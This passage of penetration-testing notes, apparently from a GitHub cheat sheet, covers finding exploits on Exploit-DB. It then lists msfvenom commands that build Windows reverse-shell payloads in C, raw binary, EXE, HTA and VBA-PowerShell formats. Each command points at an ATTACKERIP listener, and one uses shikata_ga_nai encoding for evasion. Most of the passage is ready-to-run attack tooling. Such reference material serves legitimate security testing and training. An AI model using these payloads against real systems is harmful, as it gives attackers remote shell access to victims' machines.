 
Search in [EDB](https://www.exploit-db.com/search).

Platform - `Windows`/`Linux`
Type - `Remote`/`Local`
Title - `windows rpc`/`linux kernel`/`shellshock`

Filter from relevant results and analyze the code and comments. If the exploit does not match OS version, do another search with (CVE - `CVE-ID`)

If there is a metasploit module available, it is assuring that the exploit is well tested and ported.


> https://github.com/mikaelkall/HackingAllTheThings


#### Payloads / Shells / TTY


##### Meterpreter

> https://pentestwiki.org/msfvenom-payloads-cheat-sheet/
> https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/

**C**
```bash
LH=ATTACKERIP LP="" ; msfvenom -p windows/shell_reverse_tcp LHOST=${LH} LPORT=${LP} EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d" -o payload.c

msfvenom -p windows/exec CMD=cmd.exe EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d" -o payload.c
```

**Bin**

```bash
LH=ATTACKERIP LP="" ; msfvenom -p windows/shell_reverse_tcp LHOST=${LH} LPORT=${LP} --platform windows -a x86 -f raw -o payload.bin
```

**Exe**

```bash
LH=ATTACKERIP LP="" ; msfvenom -p windows/shell_reverse_tcp LHOST=${LH} LPORT=${LP} -p windows -a x64 -f exe -o payload.exe
```

**HTA**

```bash
LH=ATTACKERIP LP="" ; msfvenom -p windows/shell_reverse_tcp LHOST=${LH} LPORT=${LP} -f hta-psh -o payload.hta
```

**VBA-PSH**

```bash
LH=ATTACKERIP LP="" ; msfvenom -p windows/shell_reverse_tcp LHOST=${LH} LPORT=${LP} -f vba-psh -o payload.vba
```
